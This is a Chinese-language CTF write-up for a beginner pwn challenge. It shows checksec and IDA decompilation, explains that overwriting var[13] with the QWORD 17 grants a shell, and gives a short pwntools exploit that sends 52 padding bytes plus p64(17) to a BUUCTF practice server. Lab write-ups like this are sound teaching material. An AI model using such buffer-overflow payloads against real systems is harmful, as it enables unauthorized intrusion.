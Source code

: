 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744616349262-ebaed89f-7f9a-4bf6-b2ab-b39484567728.png)

# 做法

开虚拟机checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744616406219-157373a3-41c2-40e8-a5f7-1f2e4b8c7198.png)

32位，保护开了一堆，但是我们先别慌

扔进IDA（32位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744616567246-9da16fb6-fbec-4d23-8258-dd9565e73540.png)

分析一下，就是把`var`数组中从第 14 个元素（索引为 13）为起始的8字节数据当作一个`_QWORD`类型的值（通常为 64 位无符号整数）来处理，接着将其和长整型常量`17`进行比较，若相等，则给权限给咱们

(即，将var[13]赋值为17（8字节），var[13]之前的随便填些字节数据进去即可）

（注：qword全称是Quad Word。2个字节就是1个字(Word)（16位），q就是英文quad-这个词根（意思是4）的首字母，所以它自然是一个Word（2字节) 的四倍，8字节）

exp（仔细看上面这几行分析）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744618600183-d421030b-caa7-4c21-ad5b-5b0369bf580a.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29647)

#定义 payload
payload = b'a' * 13 * 4 + p64(17) 
#32位是4个字节，64位是8个字节（详看本分类[第五空间2019 决赛]PWN5 1（格式化字符串）的补充2、测试需要用几个字符)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

常规，得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744618691396-5c31d663-5ff4-4808-9de2-7c90d3832d5a.png)

# 更新

于2025.4.14